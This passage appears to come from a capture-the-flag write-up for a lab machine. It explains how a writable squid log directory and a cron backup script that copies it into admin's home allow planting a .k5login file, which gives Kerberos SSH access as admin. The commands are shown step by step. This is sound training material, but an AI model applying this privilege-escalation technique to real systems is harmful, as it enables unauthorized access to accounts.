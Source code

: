 
j.nakazawa can read the script:

    
    
    #!/bin/bash
    
    /usr/bin/rsync -avz --no-perms --no-owner --no-group /var/log/squid/ /home/admin/
    cd /home/admin
    /usr/bin/tar czf squid_logs.tar.gz.`/usr/bin/date +%F-%H%M%S` access.log cache.log
    /usr/bin/rm -f access.log cache.log
    

This script is using `rsync` to copy all the files from `/var/log/squid/` to
`/home/admin/`, then create an archive using `tar`, and clean up.

### Abuse Kerberos

#### Background

An interesting feature of Kerberos on Linux is the `.k5login` file. This file
in a user’s homedir lists different Kerberos principals (basically users) that
can authenticate with their tickets to get access as the user. This is kind of
like the `authorized_keys` file for Kerberos. So if admin had a `.k5login`
file in their homedir with the name j.nakazawa in it, then anyone with a
Kerberos ticket for j.nakazawa could SSH as admin.

#### Exploit

I can put that `.k5login` file in place abusing the backup script if I can
write to `/var/log/squid`. It looks like only admin and members of the squid
group can write:

    
    
    [j.nakazawa@srv01 ~]$ ls -ld /var/log/squid/
    drwx-wx---. 2 admin squid 41 Dec 24 06:36 /var/log/squid/
    

j.nakazawa is in the squid group:

    
    
    [j.nakazawa@srv01 ~]$ id
    uid=1000(j.nakazawa) gid=1000(j.nakazawa) groups=1000(j.nakazawa),23(squid),100(users) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
    

I’ll write a simple `.k5login` file:

    
    
    [j.nakazawa@srv01 squid]$ echo "j.nakazawa@REALCORP.HTB" > /var/log/squid/.k5login
    

Once the next cron triggers, I can auth as admin using SSH:

    
    
    oxdf@parrot$ ssh admin@10.10.10.224
    Activate the web console with: systemctl enable --now cockpit.socket
    
    Last login: Thu Jun 17 14:15:01 2021
    [admin@srv01 ~]$ 
    